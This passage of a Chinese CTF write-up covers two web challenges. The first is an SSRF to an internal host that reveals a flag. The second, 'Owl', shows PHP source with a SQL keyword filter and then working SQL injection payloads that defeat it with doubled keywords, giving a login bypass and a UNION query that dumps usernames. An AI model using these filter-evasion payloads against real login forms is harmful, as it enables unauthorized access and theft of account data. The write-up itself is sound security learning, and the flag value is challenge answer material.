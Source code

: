 不知道，我太菜看不懂。但總之另外一個主機是在 172.22.0.2。

直接`/?path=http://172.22.0.2/flag`就得到flag:

```
AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}
```

### Web - Owl

題目提示：1. 網頁裡有提示 2.這題根Crypto裡的turtle是混合題

題目點進去是一個登入畫面，可以打帳號和密碼，網頁最上面可以反白看提示：「guess the stupid account/password」

一開始我不知道這是什麼意思，所以我跑去看turtle那題，題目可以給個source參數看原始碼。

直接瞎猜owl是否也能用同一招，結果還真的可以 XD

拿到了原始碼，一看就知道是要玩SQL injection，然而他有做一些input過濾：

```php
// Get rid of sqlmap kiddies
if (stripos($_SERVER['HTTP_USER_AGENT'], 'sqlmap') !== false) {
  redirect('/', "sqlmap is child's play");
}

// Get rid of you
$bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
$username = str_ireplace($bad, '', $username);
$username = str_ireplace($bad, '', $username);

// Auth
$hash = md5($password);
$row = (new SQLite3('/db.sqlite3'))
  ->querySingle("SELECT * FROM users WHERE username = '$username' AND password = '$hash'", true);
if (!$row) {
  redirect('/', 'login failed');
}
```

注意到他會把空格刪掉，我們可以用`/**/`來代替空格，但在這裡要把它寫成`/oorr**oorr/`，讓下面兩次取代刪掉oorr的部分

還有`--`也被過濾掉了，但這裡因為他是在篩選順序的最後一個，所以沒辦法用這一招，不過幸好`/*`也行得通，只是要換成`/oorr*`

開始inject啦，先試試看登入：

```
x'OoorrR''=''/oorr*   ( payload: x'OR''=''/* )
```

進去之後畫面上方有個反白的連結，是剛剛我們已經看到的原始碼 !??

看來其實正確路線是要先亂猜帳號密碼再進來看原始碼呢 (ˊ· w ·`)

好吧那我們就來看一下帳號密碼，網站會把query結果第二欄：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,group_concat(username),1/oorr**oorr/frfrfromomom/oorr**oorr/users/oorr*
(payload: x' union select 1,group_concat(username),1 from users/* )
```
